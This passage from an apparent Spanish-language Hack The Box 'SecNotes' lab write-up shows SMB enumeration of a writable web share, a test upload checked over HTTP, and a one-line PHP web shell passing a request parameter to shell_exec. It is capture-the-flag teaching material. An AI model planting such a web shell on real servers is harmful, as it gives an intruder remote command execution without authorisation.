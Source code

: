 Vemos el recurso `new-site`, por lo que vamos a ingresar y ver que información encontramos.

```bash
❯ smbclient //10.10.10.97/new-site -U 'tyler'
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Aug 19 13:06:14 2018
  ..                                  D        0  Sun Aug 19 13:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018

                7736063 blocks of size 4096. 3396336 blocks available
smb: \>
```

Vemos archivos asociados a un sitio web y además contamos con permisos de escritura; por lo que ya debemos estar pensando en subir un archivo aspx malicioso que nos permite la ejecución de código remoto; por lo tanto vamos a crear un archivo de prueba y tratar de verlo vía web por el puerto 8808:

```bash
❯ echo "Esto es una prueba" > test.txt
❯ smbclient //10.10.10.97/new-site -U 'tyler'
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 1.7 kb/s)
smb: \> dir
  .                                   D        0  Sun Dec 26 18:26:26 2021
  ..                                  D        0  Sun Dec 26 18:26:26 2021
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018
  test.txt                            A       19  Sun Dec 26 18:26:27 2021

                7736063 blocks of size 4096. 3396794 blocks available
smb: \>
```

Vamos a verlo vía web:

![""](/assets/images/htb-secnotes/secnotes-web15.png)

Como el sitio web nos interpreta archivos php, podemos crear nuestro archivo php que nos permita la ejecución de comandos a nivel de sistema y lo subimos al sistema.

```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```
